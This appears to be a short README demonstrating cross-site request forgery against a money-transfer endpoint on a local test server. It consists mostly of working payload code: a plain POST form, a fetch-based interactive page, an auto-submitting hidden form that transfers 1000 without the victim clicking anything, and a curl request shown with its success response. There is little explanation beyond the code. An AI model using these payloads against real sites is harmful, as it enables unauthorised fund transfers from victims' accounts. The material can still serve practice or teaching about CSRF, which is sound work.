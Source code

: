 ### First Method with an simple interface
```
<form action="http://localhost:8080" method="POST">

<input type="number" name="amount" value="100"/>
<input type="submit" value="Transfer Money"/>
```
### Second Method with an interface more developped ! and the content-type but not really needed.

```
<!DOCTYPE html>
<html lang="fr">
<head>
<meta charset="UTF-8">
<title>Test CSRF Interactif</title>
</head>
<body>
<h2>Test CSRF / Transfer Interactif</h2>

<p>Entrez le montant que vous voulez tester :</p>

<form id="csrfForm">
  <label for="amount">Montant :</label>
  <input type="number" id="amount" name="amount" value="50" min="1"/>
  <input type="submit" value="Envoyer POST"/>
</form>

<h3>Résultat :</h3>
<pre id="result"></pre>

<script>
document.getElementById('csrfForm').addEventListener('submit', async function(e) {
    e.preventDefault(); // Empêche le rechargement de la page

    const amount = document.getElementById('amount').value;

    try {
        const response = await fetch('http://localhost:8080/transfer', {
            method: 'POST',
            headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
            body: new URLSearchParams({ amount })
        });

        const data = await response.json();
        document.getElementById('result').textContent = JSON.stringify(data, null, 2);
    } catch (err) {
        document.getElementById('result').textContent = 'Erreur: ' + err.message;
    }
});
</script>
</body>
</html>
```

### Third method it transfer the amount without clicking on the submit button
```
<form action="http://localhost:8080/transfer" method="POST">
  <input type="hidden" name="amount" value="1000"/>
</form>
<script>
  document.forms[0].submit();
</script>
```

### Bonus method you only have to send this request with curl and bingo.
```
curl -X POST http://localhost:8080/transfer -d "amount=1000"

return value {"success":true}. So we can see the POST request has been accepted.
```
